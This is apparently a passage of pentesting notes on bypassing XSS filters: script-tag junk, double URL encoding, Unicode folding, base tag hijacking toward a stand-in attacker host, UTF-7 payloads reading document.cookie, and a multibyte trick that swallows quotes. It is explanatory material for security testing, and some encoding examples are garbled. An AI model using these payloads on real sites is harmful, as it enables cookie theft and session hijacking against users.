 ```text
##Sometimes this works, just add rubbish to the script tag!
	<script/anyjunk>alert(1)</script>


#######Tag brackets bypass with URL encoded (Or double enconde)
<img onerror=alert(1) src=a>
	%253cimg%20onerror=alert(1)%20src=a%253e ->URL decode -> %3cimg onerror=alert(1) src=a%3e -> URL decode -> <img onerror=alert(1) src=a>

##Same happend when the application framework translate unusual unicode into the nearest ASCII equivalent
	«img onerror=alert(1) src=a» ==> %u00AB onerror=alert(1) src=a%u00BB
	##And its translated to --> <<script>alert(1);//<</script>

######Particularities of each browser
##The next execution is not correct in javascript,  but in ECMAScript for XML (E4X) but in firefox this works!
	<script<{alert(1)}/></script>
```

We have to do a mention to the "base" tag for the attack known as "base tag hijacking".
Base tag is use to force the browser to resolve an url, even if it's external, the browser resolve and it considers that this url belong to the context of the page! The allow bypass the "insite" options and load a malicious script from out own server!.
```text
<base href=”http://mdattacker.net/badscripts/”>
```
In general base tag should appear in the header of the HTML pagesbut some browsers, including Firefox allows them in anywhere.

**Character Sets**
Sometimes you can use non-standar codifications
```
<script>alert(document.cookie)</script>
####UTF-7
`+ADw-script+AD4-alert(document.cookie)+ADw-/script+AD4-`
####US-ASCII
¿?¿?¿?¿?
####UTF-16
¿?¿?¿?¿?
```
The callenge here is make to the browser interpret the characters received.
- You can get this managing the _Content-type_ or its corresponding HTML metatag to force interpret this kind of codifications

**Several inputs to attack**
We have two inputs that apply that are reflected (or stored) in a webpage as:
```
<img src=”image.gif” alt=”[input1]” /> ... [input2]

##to attack
	input1:[%f0]
	input2:"onload=alert(1);
```
The **0xf0** character is used to define that the next character is composed by two bytes, that means that this is no going to interpret the quote and will not close the string, that way we can insert the input2 in the same string!
